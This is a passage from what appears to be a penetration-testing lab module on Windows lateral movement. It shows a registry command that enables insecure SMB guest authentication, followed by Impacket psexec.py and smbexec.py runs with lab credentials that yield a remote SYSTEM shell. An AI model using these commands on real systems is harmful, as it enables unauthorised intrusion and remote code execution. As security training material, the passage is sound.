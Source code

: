 C:\Program Files (x86)\Microsoft\Edge\Application&gt;
</code></pre>
<p>It is important to keep in mind that to use SMB share folder without authentication we need to have the following registry key set to <code>1</code>:</p>
<pre><code class="language-powershell-session">PS C:\Tools&gt; reg.exe query HKLM\SYSTEM\CurrentControlSet\Services\LanmanWorkstation\Parameters /v AllowInsecureGuestAuth

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanWorkstation\Parameters
    AllowInsecureGuestAuth    REG_DWORD    0x0
</code></pre>
<p>The above registry key is responsable for allowing guest access in SMB2 and SMB3 which is disable by default on Windows. If have an account with administrative rights, we can use the following command to allow insecure guest authentication:</p>
<pre><code class="language-powershell-session">PS C:\Tools&gt; reg.exe add HKLM\SYSTEM\CurrentControlSet\Services\LanmanWorkstation\Parameters /v AllowInsecureGuestAuth /d 1 /t REG_DWORD /f
The operation completed successfully.
</code></pre>
<h2>Lateral Movement From Linux</h2>
<p>To achieve lateral movement from Linux we can use the <a href="https://github.com/fortra/impacket">Impacket</a> tool set. <code>Impacket</code> is a suite of Python libraries designed for interacting with network protocols. It focuses on offering low-level programmatic control over packet manipulation and, for certain protocols like <code>SMB</code> and <code>MSRPC</code>, includes the protocol implementations themselves.</p>
<h3>Psexec.py</h3>
<p><a href="https://github.com/fortra/impacket/blob/master/examples/psexec.py">Psexec.py</a> is a great alternative for Linux users. This method is very similar to the traditional <code>PsExec</code> tool from SysInternals suite. <code>psexec.py</code> creates a remote service by uploading an executable with a random name to the <code>ADMIN$</code> share on the target Windows machine. It then registers this service via RPC and the Windows Service Control Manager. Once registered, the tool establishes communication through a named pipe, allowing for the execution of commands and retrieval of outputs on the remote system. Understanding this mechanism is crucial for effectively utilizing the tool and appreciating its role in facilitating remote command execution.</p>
<p>We can use <code>psexec.py</code> to get remote code execution on a target host, administrator login credentials are required. We must provide the domain, admin level user, password, and the target IP as follows <code>&lt;domain&gt;/&lt;user&gt;:&lt;password&gt;@&lt;ip&gt;</code>:</p>
<pre><code class="language-shell-session">[!bash!]$ proxychains4 -q psexec.py INLANEFREIGHT/helen:'RedRiot88'@172.20.0.52
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Requesting shares on 172.20.0.52.....
[*] Found writable share ADMIN$
[*] Uploading file sRhFLBbo.exe
[*] Opening SVCManager on 172.20.0.52.....
[*] Creating service KQWG on 172.20.0.52.....
[*] Starting service KQWG.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.5830]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32&gt;
</code></pre>
<h3>smbexec.py</h3>
<p>The <a href="https://github.com/fortra/impacket/blob/master/examples/smbexec.py">smbexec.py</a> method leverages the built-in Windows SMB functionality to run arbitrary commands on a remote system without uploading files, making it a quieter alternative.</p>
<p>Communication occurs exclusively over TCP port 445. It also sets up a service, using only MSRPC for this, and manages the service through the <code>svcctl</code> SMB pipe.</p>
<p>To use this tool, we must provide the domain name, administrator user, password, and the target IP address <code>&lt;domain&gt;/&lt;user&gt;:&lt;password&gt;@&lt;ip&gt;</code>:</p>
<pre><code class="language-shell-session">[!bash!]$ proxychains4 -q smbexec.py INLANEFREIGHT/helen:'RedRiot88'@172.20.0.52
Impacket v0.11.0 - Copyright 2023 Fortra
